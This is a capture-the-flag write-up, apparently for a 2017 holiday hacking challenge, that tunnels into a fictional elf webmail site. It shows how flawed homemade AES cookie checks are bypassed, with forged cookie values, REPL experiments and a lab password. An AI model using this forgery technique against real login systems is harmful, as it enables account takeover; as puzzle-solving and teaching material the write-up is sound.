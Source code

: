 * Question
   :PROPERTIES:
   :CUSTOM_ID: q4_question
   :END:

Elf Web Access (EWA) is the preferred mailer for North Pole elves,
available internally at http://mail.northpolechristmastown.com. What
can you learn from The Great Book page found in an e-mail on that
server?

* Background Information
   :PROPERTIES:
   :CUSTOM_ID: q4_background-information
   :END:

Hints:

Pepper Minstix gives us the following hints:

  1. I'm so excited for the new email system that Alabaster Snowball set up for us. He spent a lot of time working on it. Should make it very easy for us to share cookie recipes. I just hope that he cleared up all his dev files. I know he was working on keeping the dev files from search engine indexers.
  2. The new email system's authentication should be impenetrable. Alabaster was telling me that he came up with his own encryption scheme using AES256, so you know it's secure.
  3. AES256? Honestly, I don't know much about it, but Alabaster explained the basic idea and it sounded easy. During decryption, the first 16 bytes are removed and used as the initialization vector or "IV." Then the IV + the secret key are used with AES256 to decrypt the remaining bytes of the encrypted string.
  4. Hmmm. That's a good question, I'm not sure what would happen if the encrypted string was only 16 bytes long.
  5. Every year when Santa gets back from delivering presents to the good girls and boys, he tells us stories about all the cookies he receives. I love everything about cookies! Cooking them, eating them, editing them, decorating them, you name it!

* Goal
   :PROPERTIES:
   :CUSTOM_ID: q4_goal
   :END:

The question tells us that the page we're looking for is in an e-mail. So, we need to figure out some way to login to the mail system and find the crucial message.

* Approach
   :PROPERTIES:
   :CUSTOM_ID: q4_approach
   :END:

First off, let's pull up the website in our web browser. SSH can run a
SOCKS proxy for us, which we can use to tunnel our traffic through
l2s. We use the access we got in Question 2 to SSH in:

#+BEGIN_SRC sh
ssh -D 31080 alabaster_snowball@l2s.northpolechristmastown.com
#+END_SRC

I like to use Firefox for this, since, unlike Chrome, we can configure proxy settings different from the system-wide settings:

#+CAPTION: Elf Web Access
#+attr_html: :width 500px
[[./images/firefox_proxy.png]]

Now we can just navigate to http://mail.northpolechristmastown.com:

#+CAPTION: Elf Web Access
#+attr_html: :width 350px
[[./images/ewa.png]]

Luckily, we got Alabaster's password in Question 2, so let's login!

#+CAPTION: Logging in as alabaster_snowball/stream_unhappy_buy_loss
#+attr_html: :width 500px
[[./images/bad_email.png]]

Of course! We need an e-mail address:

#+CAPTION: Logging in as alabaster_snowball@northpolechristmastown.com/stream_unhappy_buy_loss
#+attr_html: :width 500px
[[./images/bad_username.png]]

Luckily, the error message tells us how we need to format the e-mail address:

#+CAPTION: Logging in as alabaster_snowball@northpolechristmastown.com/stream_unhappy_buy_loss
#+attr_html: :width 500px
[[./images/bad_password.png]]

Curses! Looks like Alabaster is at least smart enough to not reuse credentials. At least he's following the password policy:

#+CAPTION: MEMO - Password Policy Reminder.docx from the SMB FileStor
#+attr_html: :width 500px
[[./images/password_policy.png]]

Let's review some of the hints that Pepper gave us:

#+BEGIN_QUOTE
I just hope that he cleared up all his dev files. I know he was working on keeping the dev files from search engine indexers.
#+END_QUOTE

We scanned this EWA system with =nmap= before, and one of the =nmap= scripts did find a reference in ~robots.txt~:

#+BEGIN_SRC 
80/tcp   open  http
| http-robots.txt: 1 disallowed entry
|_/cookie.txt
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
#+END_SRC

Given how much Pepper harps on cookies, perhaps this file is worth investigating. When we view it, we see:

#+BEGIN_SRC javascript
//FOUND THESE FOR creating and validating cookies. Going to use this in node js
function cookie_maker(username, callback){
    var key = 'need to put any length key in here';
    //randomly generates a string of 5 characters
    var plaintext = rando_string(5)
    //makes the string into cipher text .... in base64. When decoded this 21 bytes in total length. 16 bytes for IV and 5 byte of random characters
    //Removes equals from output so as not to mess up cookie. decrypt function can account for this without erroring out.
    var ciphertext = aes256.encrypt(key, plaintext).replace(/\=/g,'');
    //Setting the values of the cookie.
    var acookie = ['IOTECHWEBMAIL',JSON.stringify({"name":username, "plaintext":plaintext,  "ciphertext":ciphertext}), { maxAge: 86400000, httpOnly: true, encode: String }]
    return callback(acookie);
};
function cookie_checker(req, callback){
    try{
        var key = 'need to put any length key in here';
        //Retrieving the cookie from the request headers and parsing it as JSON
        var thecookie = JSON.parse(req.cookies.IOTECHWEBMAIL);
        //Retrieving the cipher text 
        var ciphertext = thecookie.ciphertext;
        //Retrievingin the username
        var username = thecookie.name
        //retrieving the plaintext
        var plaintext = aes256.decrypt(key, ciphertext);
        //If the plaintext and ciphertext are the same, then it means the data was encrypted with the same key
        if (plaintext === thecookie.plaintext) {
            return callback(true, username);
        } else {
            return callback(false, '');
        }
    } catch (e) {
        console.log(e);
        return callback(false, '');
    }
};
#+END_SRC

There's a lot to parse here, but given the number of times AES and IVs are mentioned in the hints, this looks like we're on the right path.

Our next hint is:

#+BEGIN_QUOTE
The new email system's authentication should be impenetrable. Alabaster was telling me that he came up with his own encryption scheme using AES256, so you know it's secure.
#+END_QUOTE

Uh-oh... Coming up with your own cryptography scheme should send up all the red flags.

#+BEGIN_QUOTE
Happy families are all alike; every unhappy family is unhappy in its own way. --   Leo Tolstoy
#+END_QUOTE

#+BEGIN_QUOTE
Empty plaintext encrypted without using HMAC are all alike; Rolling your own crypto makes all cryptographers unhappy. -- Justin Azoff
#+END_QUOTE

At this point, we suspect that there's some kind of vulnerability in the cryptography being used. Reading on:

#+BEGIN_QUOTE
AES256? Honestly, I don't know much about it, but Alabaster explained
the basic idea and it sounded easy. During decryption, the first 16
bytes are removed and used as the initialization vector or "IV." Then
the IV + the secret key are used with AES256 to decrypt the remaining
bytes of the encrypted string.
#+END_QUOTE

Let's pause for a moment to review what we know so far. The e-mail application uses cookies for authentication.

#+BEGIN_SRC js
  var acookie = ['IOTECHWEBMAIL',JSON.stringify({"name":username, "plaintext":plaintext,  "ciphertext":ciphertext}), 
		 { maxAge: 86400000, httpOnly: true, encode: String }]
#+END_SRC

As we can see from the line above, the cookie contains a username,
some plaintext, and some ciphertext. The ~cookie_checker~ function
takes the encrypted ciphertext, and attempts to decrypt it with a
secret key that only the application has. If the result matches the
plaintext from the cookie, the cookie is authentic:

#+BEGIN_SRC js
var plaintext = aes256.decrypt(key, ciphertext);
//If the plaintext and ciphertext are the same, then it means the data was encrypted with the same key
if (plaintext === thecookie.plaintext) {
    return callback(true, username);
} else {
    return callback(false, '');
}
#+END_SRC

The code, as well as Pepper's hints, tell us something about the structure of the ciphertext:

#+BEGIN_SRC js
//makes the string into cipher text .... in base64. 
// When decoded this 21 bytes in total length. 16 bytes for IV and 5 byte of random characters
#+END_SRC

Finally, Pepper gives us this tantalizing hint:

#+BEGIN_QUOTE
Hmmm. That's a good question, I'm not sure what would happen if the encrypted string was only 16 bytes long.
#+END_QUOTE

By reading the code closely we can see that when the application *creates* a cookie, the plaintext is 5 random characters. However, nothing in the verification logic requires this. The only check is:

#+BEGIN_SRC js
aes256.decrypt(key, ciphertext) === thecookie.plaintext
#+END_SRC

Let's see what a valid cookie looks like:

#+BEGIN_SRC 
$ http --proxy=http:socks5://@localhost:31080 'http://mail.northpolechristmastown.com/'
HTTP/1.1 200 OK
...
Server: nginx/1.10.3 (Ubuntu)
Set-Cookie: EWA={"name":"GUEST","plaintext":"","ciphertext":""}; Max-Age=86400; Path=/; Expires=Wed, 10 Jan 2018 23:37:29 GMT; HttpOnly
...
#+END_SRC

Let's try what Pepper Minstix suggests: setting our ciphertext to only
be 16 characters long. We know that this is base64 encoded, so we'll
run:

#+BEGIN_SRC 
$ echo -n "Security at NCSA" | base64
U2VjdXJpdHkgYXQgTkNTQQ==
#+END_SRC

We're using the =-n= flag of =echo= to not have a newline at the end, which would give us a 17 character length cookie.

#+BEGIN_SRC 
$ http --proxy=http:socks5://@localhost:31080 'http://mail.northpolechristmastown.com/' 
  'Cookie:EWA={"name":"alabaster.snowball@northpolechristmastown.com","ciphertext":"U2VjdXJpdHkgYXQgTkNTQQ==","plaintext":""}'
HTTP/1.1 200 OK
...
X-Powered-By: Express

<script>window.location.href='/account.html'</script>
#+END_SRC

That looks promising! Let's move from the command line back to Firefox. One easy way to edit cookies in Firefox is to go to Tools => Web Developer => Storage Inspector. We should see an =EWA= cookie in there already, and we can simply double-click the value field and paste in our forged cookie:

#+BEGIN_SRC
{"name":"alabaster.snowball@northpolechristmastown.com","ciphertext":"U2VjdXJpdHkgYXQgTkNTQQ==","plaintext":""}
#+END_SRC

Now we just reload the page, and we're in!

#+CAPTION: Logging in with our forged cookie
#+attr_html: :width 500px
[[./images/ewa_loggedin.png]]

At this point, we can start digging through Alabaster's e-mail. Soon, we find this email leading us to [[https://www.holidayhackchallenge.com/2017/pages/f192a884f68af24ae55d9d9ad4adf8d3a3995258/GreatBookPage4.pdf][http://mail.northpolechristmastown.com/attachments/GreatBookPage4_893jt91md2.pdf]]:

#+CAPTION: Page 4 E-mail
#+attr_html: :width 500px
[[./images/page4_email.png]]

*** An Alternative Solution: Black Box Cracking

Given some of the discussion in the chat, this was one of the hardest
questions. This section goes deeper into the cookie creation and
validation code, and it offers an alternative solution. Finding
=cookie.txt= from the =robots.txt= file made this question much
easier, but this version lays out the approach to solve this question
without that file. Independently, one of our team members used the
previous solution, and one used this solution.

The Javascript code used is a variation of a challenge response
algorithm, but it is flawed in that the client is providing both the
challenge and the response.  It is also flawed in that it does not use
MAC
https://en.wikipedia.org/wiki/Authenticated_encryption#MAC-then-Encrypt_(MtE)
meaning that the encrypted contents themselves are never verified.

Since we can control both the ciphertext and the expected plaintext, we can
just set the challenge to the empty string "" and the response then just needs
to be ANY message that decrypts to "".  Since the message is empty, the key is
irrelevant, we just need to work out how to properly generate a ciphertext that
will decrypt to nothing.

A completely empty ciphertext throws an error:

#+BEGIN_SRC js
> var aes256 = require('aes256');
> aes256.decrypt('key does not matter', '')
TypeError: Provided "encrypted" must be a non-empty string
    at Object.decrypt (/Users/user/node_modules/aes256/index.js:68:13)
#+END_SRC

A larger ciphertext works, but gives us a random string, which is not what we want.. but 
we can see that a fairly long cipher text only gives us a few bytes of plaintext...

#+BEGIN_SRC js
> aes256.decrypt('key does not matter', 'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa')
'F..%=X..'
#+END_SRC

The difference in the length of the two strings is 24:

#+BEGIN_SRC js
> x='aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa'
> x.length - aes256.decrypt('key does not matter',x).length
24
#+END_SRC

From the hints, we learn that some of the bytes are used for the IV.

The AES library won't let us encrypt an empty string, but we can encrypt a single char:

#+BEGIN_SRC js
> aes256.encrypt('key does not matter', '')
TypeError: Provided "plaintext" must be a non-empty string
    at Object.encrypt (/Users/user/node_modules/aes256/index.js:39:13)
> aes256.encrypt('key does not matter', 'x')
'L7rwNMwISl2chavT6lILlNM='
> aes256.encrypt('key does not matter', 'x').length
24
#+END_SRC

This gives a ciphertext of length 24 with one byte of = for padding.  This
means that 22 bytes are used for the IV and one byte is used to encrypt the 'x'
itself.

So, at this point it is clear that something interesting happens around 22-24 chars.

Trying different lengths approaching a length of 22 continues to throw an error
for a while...

#+BEGIN_SRC js
> aes256.decrypt('key does not matter', 'aaaaaaaaaaaaaaaa')
TypeError: Provided "encrypted" must be a non-empty string
    at Object.decrypt (/Users/user/node_modules/aes256/index.js:68:13)
#+END_SRC

Until the error changes:

#+BEGIN_SRC js
> aes256.decrypt('key does not matter', 'aaaaaaaaaaaaaaaaa')
Error: Invalid IV length
    at new Decipheriv (internal/crypto/cipher.js:186:16)
    at Object.createDecipheriv (crypto.js:106:10)
    at Object.decrypt (/Users/user/node_modules/aes256/index.js:78:27)
> aes256.decrypt('key does not matter', 'aaaaaaaaaaaaaaaaaa')
Error: Invalid IV length
    at new Decipheriv (internal/crypto/cipher.js:186:16)
    at Object.createDecipheriv (crypto.js:106:10)
    at Object.decrypt (/Users/user/node_modules/aes256/index.js:78:27)
> aes256.decrypt('key does not matter', 'aaaaaaaaaaaaaaaaaaa')
Error: Invalid IV length
    at new Decipheriv (internal/crypto/cipher.js:186:16)
    at Object.createDecipheriv (crypto.js:106:10)
    at Object.decrypt (/Users/user/node_modules/aes256/index.js:78:27)
> aes256.decrypt('key does not matter', 'aaaaaaaaaaaaaaaaaaaa')
Error: Invalid IV length
    at new Decipheriv (internal/crypto/cipher.js:186:16)
    at Object.createDecipheriv (crypto.js:106:10)
    at Object.decrypt (/Users/user/node_modules/aes256/index.js:78:27)
> aes256.decrypt('key does not matter', 'aaaaaaaaaaaaaaaaaaaaa')
Error: Invalid IV length
    at new Decipheriv (internal/crypto/cipher.js:186:16)
    at Object.createDecipheriv (crypto.js:106:10)
    at Object.decrypt (/Users/user/node_modules/aes256/index.js:78:27)
> aes256.decrypt('key does not matter', 'aaaaaaaaaaaaaaaaaaaaaa')
''
> 'aaaaaaaaaaaaaaaaaaaaaa'.length
22
> aes256.decrypt('key really does not matter', 'aaaaaaaaaaaaaaaaaaaaaa')
''
#+END_SRC

Success!  A string of any 22 chars will decrypt to the empty string.

An alternative approach would be to edit the aes library and comment out this block:

#+BEGIN_SRC js
if (typeof plaintext !== 'string' || !plaintext) {
  throw new TypeError('Provided "plaintext" must be a non-empty string');
}
#+END_SRC

With the throw commented out, we can encrypt an empty string:

#+BEGIN_SRC js
> var aes256 = require('aes256');
> aes256.encrypt('whatever', '')
'SStLU1QxLjmtG/Ea8hMH0Q=='
> ct=aes256.encrypt('whatever', '')
'tYcVb4PRsdq4JWl5XMSNgw=='
> aes256.decrypt('a different key entirely', ct)
''
> ct.length
24
#+END_SRC

The length is different(24 instead of 22), but only because it is padded with 2
bytes of == for base64 purposes.

*** Tool Development

We created a script, TODO LINK TO EWA SCRIPT, which will forge a
cookie to login as a user, and then dump all the e-mails as JSON. In
order to do this, we relied heavily on
http://mail.northpolechristmastown.com/js/custom.js to see how the API
worked, and duplicated portions of it in Python. This script allowed
us to archive and search e-mails, which was useful for future
questions.

#+BEGIN_SRC 
$ ./ewa.py alabaster.snowball > alabaster_inbox.json
$ cat alabaster_inbox.json | jq '.INBOX[].HEADERS.body.subject' -c
["Welcome"]
["Re: Welcome"]
["Re: gingerbread cookie recipe"]
["COOKIES!"]
["Re: COOKIES!"]
["Re: COOKIES!"]
["Re: COOKIES!"]
["Re: COOKIES!"]
["Re: COOKIES!"]
["Christmas Party!"]
["Re: Christmas Party!"]
["Re: Christmas Party!"]
["Re: Christmas Party!"]
["Re: Christmas Party!"]
["Should we be worried?"]
["Re: Should we be worried?"]
["Re: Should we be worried?"]
["Lost book page"]
["Re: Lost book page"]
["Re: Lost book page"]
["Re: Lost book page"]
#+END_SRC

* Solution
   :PROPERTIES:
   :CUSTOM_ID: q4_solution
   :END:

Alabaster Snowball had a vulnerability in his cookie validation code,
where he wasn't verifying the length of the decrypted text. AES will
encrypt an empty string as an empty string, so we can forge a cookie
without needing to know the key. With this forged cookie, we can login
to Alabaster's e-mail, and find an e-mail with a link to the page
we're looking for.

* Alternatives
   :PROPERTIES:
   :CUSTOM_ID: q4_alternatives
   :END:

If only we could crack Alabaster's password, we wouldn't need to forge
any cookies. But more on that later...

* Common Pitfalls
   :PROPERTIES:
   :CUSTOM_ID: q4_common-pitfalls
   :END:

As previously mentioned, this seemed to be one of the most-discussed
questions in chat. We saw people trying to brute-force the AES key,
focus on the encryption of the message, or just try to bypass the web
application completely.

